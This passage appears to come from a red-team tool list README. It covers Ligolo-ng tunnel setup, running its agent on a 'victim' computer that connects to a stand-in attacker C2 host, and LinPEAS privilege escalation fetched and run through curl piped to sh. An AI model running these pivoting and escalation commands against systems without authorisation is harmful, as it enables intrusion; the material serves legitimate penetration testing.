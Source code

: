 ```bash
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
```

**Setup: (Windows)**

You need to download the [Wintun](https://www.wintun.net/) driver (used by [WireGuard](https://www.wireguard.com/)) and place the `wintun.dll` in the same folder as Ligolo (make sure you use the right architecture).

**Setup: (Proxy server)**

```bash
./proxy -h # Help options
./proxy -autocert # Automatically request LetsEncrypt certificates
```

**Usage:**

_Start the agent on your target (victim) computer (no privileges are required!):_

```bash
./agent -connect attacker_c2_server.com:11601
```

A session should appear on the proxy server.

```
INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
```

Use the session command to select the agent.

```
ligolo-ng » session
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

Full usage information can be found [here](https://github.com/nicocha30/ligolo-ng#using-ligolo-ng).

![image](https://user-images.githubusercontent.com/100603074/216729440-80871cad-4c06-4eb5-8e91-d083ea3f1d2b.png)

_Image used from https://github.com/nicocha30/ligolo-ng#demo_

# Privilege Escalation

### [🔙](#tool-list)[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

LinPEAS is a nice verbose privilege escalation for finding local privesc routes on Linux endpoints.

**Install + Usage:**

```bash
curl -L "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" | sh
```

![image](https://user-images.githubusercontent.com/100603074/192070104-8a121544-5c88-4c24-8b2e-590700b345e7.png)
